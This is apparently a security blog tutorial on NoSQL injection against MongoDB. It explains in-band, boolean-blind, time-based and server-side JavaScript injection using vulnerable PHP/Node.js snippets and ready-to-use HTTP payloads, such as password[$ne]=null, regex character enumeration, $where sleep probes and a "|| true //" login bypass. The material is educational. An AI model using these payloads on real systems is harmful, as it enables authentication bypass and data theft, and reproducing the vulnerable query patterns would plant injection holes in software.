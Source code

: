 ```yaml
---
title: "NoSQL Injection Attacks"
date: 2025-02-18
draft: false
description: "Introduction into NoSQL Injection Attacks"
---
```

<link rel="stylesheet" href="https://cdnjs.cloudflare.com/ajax/libs/font-awesome/6.5.1/css/all.min.css">

## <i class="fa-solid fa-syringe"></i> Overview
<span class="text-primary-400">NoSQL</span> databases like MongoDB, Couchbase, and Cassandra have gained immense popularity due to their flexibility, scalability, and performance benefits over traditional relational databases. However, with this rise in adoption comes an increase in security vulnerabilities. NoSQL injection attacks occur when <span class="text-primary-400">untrusted user input is improperly handled and executed</span> within a NoSQL query, allowing an attacker to manipulate database operations. These vulnerabilities are <span class="text-primary-400">as dangerous as traditional SQL injections</span> but are often overlooked due to the misconception that NoSQL databases are inherently secure.

## <i class="fa-solid fa-compass"></i> Types of NoSQL Injection
NoSQL injection attacks can be categorized based on how the attacker interacts with the database and the feedback received. Understanding these types is crucial for both developers and security professionals to identify and mitigate potential threats.

### In-Band Injection
In-Band Injection involves the attacker using the <span class="text-primary-400">same communication channel</span> to both launch the attack and gather results. This method is straightforward because the feedback is immediate.

<b class="text-primary-400">Example Scenario</b>: Consider a web application using MongoDB that accepts user login credentials via an HTTP `POST` request. The vulnerable PHP code might look like this:

```php
// Vulnerable PHP code
$collection->find([
    'username' => $_POST['username'],
    'password' => $_POST['password']
]);

$collection->find($query);
```

An attacker can craft an HTTP request to exploit this unsanitized input:

{{< highlight http "linenos=false,hl_lines=5" >}}
POST /login.php HTTP/1.1
Host: example.com
Content-Type: application/x-www-form-urlencoded

username=admin&password[$ne]=null
{{< /highlight >}}

<b class="text-primary-400">Explanation</b>: PHP Array Syntax -- When writing MongoDB queries in PHP, arrays represent MongoDB’s query structure. The syntax `password[$ne]=null` translates to an associative array in PHP:

```php
$query = [
    'password' => [
        '$ne' => null
    ]
];
```

Resulting Query:

```php
db.users.findOne({
    username: "admin",
    password: { "$ne": null }
});
```

Since the password is <span class="text-primary-400">not null</span>, the condition is <span class="text-primary-400">true</span>, and the attacker gains unauthorized access as the admin.

### Blind Injection
Blind Injections occur when an attacker <span class="text-primary-400">cannot see the direct results</span> of their injected queries but can <span class="text-primary-400">infer information based on the application’s responses</span>, such as differences in content, HTTP status codes, error messages, or response times.

#### Boolean-Based
In a <span class="text-primary-400">Boolean-Based Blind Injection</span>, the attacker sends <span class="text-primary-400">queries that evaluate to either true or false</span> and observes the application’s behavior to infer information about the database.

<b class="text-primary-400">Example Scenario</b>: Consider a search functionality with a NoSQL Injection vulnerability, where users can search for products. An attacker sends a request with a crafted search term:

```HTTP
GET /search.php?search[$regex]=^S.* HTTP/1.1
Host: example.com
```

If a product starting with the letter “<span class="text-primary-400">S</span>” exists:

{{< highlight http "linenos=false,hl_lines=5" >}}
HTTP/1.1 200 OK
Content-Type: text/html

{
  Exists: true
}
{{< /highlight >}}


Otherwise:

{{< highlight http "linenos=false,hl_lines=4" >}}
HTTP/1.1 200 OK
Content-Type: text/html

No products found.
{{< /highlight >}}

To extract the full name of the product, the attacker continues testing each subsequent character to reconstruct the produc name:

```
search[$regex]=^Se.*  ✔️
search[$regex]=^Sea.* ✖️
search[$regex]=^Sec.* ✔️
…
search[$regex]=^SecretProduct$
```

The `$` indicates the end of a string, verifying if the entire word is correct.

#### Time-Based
In a <span class="text-primary-400">Time-Based Blind Injection</span>, the attacker sends queries that cause the server to <span class="text-primary-400">delay its response when certain conditions are true</span>. By measuring these response times, the attacker can infer information about the database.

<b class="text-primary-400">Example Scenario</b>: Assume a NoSQL Injection vulnerability in the username parameter:

```HTTP
POST /login HTTP/1.1
Host: example.com
Content-Type: application/json

{
    "username": {
       "$where": "function() { if(this.username == 'admin') { sleep(5000); } return true; }"
    },
    "password": "randompassword"
}
```

<b class="text-primary-400">Explanation</b>: JavaScript Function -- The `this` keyword refers to the current document being evaluated in the collection.

```JS
if(this.username == 'admin') { sleep(5000); }
```

<b class="text-primary-400">Behavior</b>: If `this.username == 'admin'` evaluates to true, the function calls `sleep(5000)` to delay the response by 5 seconds, indicating that the username exists. Otherwise, the response time remains normal.

An attacker can enumerate usernames or other fields character by character using a similar method:

```Json
{
    "username": {
        "$where": "function() { if (this.username[0] == 'a') { sleep(5000); } return true; }"
    },
    "password": "irrelevant"
}
```

By systematically testing each character position, the attacker can reconstruct sensitive information.

### Server-Side JavaScript Injection (<span class="text-primary-400">SSJI</span>)
MongoDB allows the use of JavaScript expressions in queries via the `$where` operator. If not handled securely, this feature can be exploited.

<b class="text-primary-400">Example Scenario</b>: Consider the following MongoDB query in a Node.js application:

```JS
collection.findOne({
  $where: `this.username == '${username}' && this.password == '${password}'`
}, function(err, user) {
    if (user) {
        res.send('Logged in as ' + user.username);
    } else {
        res.send('Authentication failed');
    }
});
```

An attacker can manipulate the `username` field to inject malicious code:

```HTTP
POST /login HTTP/1.1
Host: example.com
Content-Type: application/x-www-form-urlencoded

username=admin' || true //&password=anything
```

Resulting Query:

```JS
db.users.findOne({
    $where: "this.username == 'admin' || true // ' && this.password == 'anything'"
});
```

<b class="text-primary-400">Effect</b>: The condition `this.username == 'admin' || true` always evaluates to true, allowing the attacker to bypass authentication.

<b class="text-primary-400">Further Exploitation</b>: Attackers can use injections like `" || ""=="` or `" || true || ""=="` to evaluate the entire query to true. They can also enumerate fields using functions like `match($regex)` and the character-by-character approach mentioned earlier.